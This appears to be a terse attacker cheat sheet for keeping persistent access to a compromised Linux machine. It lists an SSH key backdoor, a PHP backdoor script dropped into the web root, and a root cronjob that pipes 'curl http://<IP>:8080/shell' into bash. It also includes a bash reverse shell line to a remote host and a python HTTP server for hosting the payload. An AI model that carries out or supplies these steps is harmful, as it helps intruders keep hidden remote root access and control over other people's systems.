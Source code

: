 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa user@ip                    Use BackDoor

				PHP BackDoor
-- setup netcat
-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
